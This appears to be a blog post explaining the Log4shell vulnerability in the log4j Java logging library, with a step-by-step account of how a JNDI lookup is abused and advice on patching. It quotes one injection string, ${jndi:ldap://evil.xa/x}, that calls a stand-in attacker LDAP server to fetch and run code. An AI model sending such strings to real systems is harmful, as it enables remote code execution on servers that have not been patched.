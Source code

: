 ```yaml
---
title: "Log4shell Vulnerability"
categories:
  - General
---
```


WHEW, it certainly has been one hell of a year for cyber security, and it's only getting more intense. You may have heard of the recent vulnerability dubbed CVE-2021-44228, or better known as Log4shell. It has all cyber security professionals, hackers and businesses around the world very worried (or excited depending on where you stand on the issue). So what is Log4shell? Should you personally be worried about it? In this article I'll attempt to explain what it is and why this is such a big deal. Enjoy!

### What the hell is Log4shell?

Well first to understand what Log4shell is, we need to understand what underlying mechanism is being exploited. Let's start with **log4j**.

Log4j is a java library developed by Apache that is used to help log data. This logging mechanism allows for errors, authentication failures, user input, etc. to be logged into a format where they can be reviewed later for whatever reason. If you're a web application developer, this can be very useful. Log4j is also **open source**, which means that the code is available to be publicly viewed, used and changed as needed by the requirements of the user. Java (code and framework) is one of the most commonly used technologies in the world. It runs on (but not limited to) webservers, mobile devices and even cars. There are millions of devices that rely on Java, as well as log4j, making this vulnerability widespread and diverse.

Log4shell is the vulnerability for log4j that takes advantage of its lookup functionality and improper input validation. You can think of lookups in this context for log4j as a way to interpolate input upon logging a message. Lookups can be useful in the sense that they can pull data from remote resources as well as other applications if need be. The JNDI (Java Naming and Directory Interface) is the specific lookup available in log4j that was targeted in these attacks. A hacker can craft a special string that has a JNDI lookup make a request to a server that is under the attacker's control and then execute code remotely. It may sound difficult to do, but the exploit is quite simple. Let's take a look at the attack in a bit more depth in the next section.

### Log4shell Example

![log4shell]({{ site.url }}{{ site.baseurl }}/assets/images/log4j_attack.png)

The picture above shows a full example of how this vulnerability can be exploited by an attacker. Let's break this down:

1. The attacker crafts a malicious string that utilizes a JNDI lookup. The method for injecting this string can vary, but in this case, the attacker passed it in the user agent. The string ${jndi:ldap://evil.xa/x} tells the JNDI to connect to the attacker's evil LDAP server.

2. The string is passed to log4j for logging purposes.

3. Log4j takes the string, interpolates it and then queries the attacker's LDAP server. Remember, there is no input validation that is checking to see what is being passed. This means that log4j is happy to log any input it sees and query accordingly. 

4. The attacker's LDAP server responds to the query by giving the directory information that contains the malicious code.

5. The malicious code is then executed after being downloaded.

As we can see, this attack is quite simple yet very effective. There are many variations that an attacker can use to pass the string. The code executed could potentially set up a reverse shell on the webserver, and in doing so the hacker would then have remote control over the server. From there, the possibilities are endless.

### Conclusion 

This vulnerability is bad...

This is probably one of the biggest security vulnerabilities that has been discovered in recent history. I liken this to the [Heartbleed vulnerability](https://www.csoonline.com/article/3223203/what-is-the-heartbleed-bug-how-does-it-work-and-how-was-it-fixed.html) that affected OpenSSL years ago. Although they are different vulnerabilities entirely, there were similar circumstances surrounding them both; Both technologies where the code lived in were open source, and both were exploited as a **zero day attack**. Zero days are exploits that have not been caught, detected or mitigated (via a patch for example). Attackers are able to utilize zero days as long as there is nothing stopping them from exploiting it. Usually once a zero day has been brought to the attention of the general public, developers will create patches for it. This makes timing a very important factor in using these exploits. The debate whether open source is better than proprietary still continues on...

The challenge with log4j (as mentioned above), which makes it different that other vulnerabilities, is that java runs on a myriad of devices, which means log4j ultimately does as well. This makes patch management for log4shell very difficult. If you're a company, you not only have to A) identify all of your assets, but then B) patch them. Companies right now are scrambling to patch all systems that they know of that contain the vulnerability. Cyber security experts are predicting that the effects of this vulnerability have not fully been realized. It is quite possible that the really good hackers have been able to use this exploit to get into a network, establish persistence and then "go dark". They may be biding their time in order to figure out how to move laterally around the network and perform whatever malicious deed they want. Only time will tell.

I think that what we're going to see in the future is an influx of supply chain attacks. Remember, while large companies like Apple or Google are actively patching and remediating devices, it doesn't mean their vendors are doing the same thing. As a matter of fact, larger companies can't force their vendors to patch devices or adhere to certain standards for cyber security. This creates a potential "in" for hackers as they can compromise a vendor and then work to get into the main company's network at some point.  

For all of us and our personal cyber security, it's hard to tell right now how you can be affected. We definitely have devices or technologies that run java and log4j, but that doesn't necessarily mean those devices are "easy" to perform this exploit on. An internet facing webserver is going to be easier to exploit than a Tesla for example (hopefully). However, you should definitely take inventory of devices you own and update them with the latest patches if available. Also, please make sure that any accounts you may have with any major institutions are secured with two factor authentication and strong passwords, as there's no telling if hackers have compromised these sites and will attempt to steal credentials in the future. 

Thank you for reading!









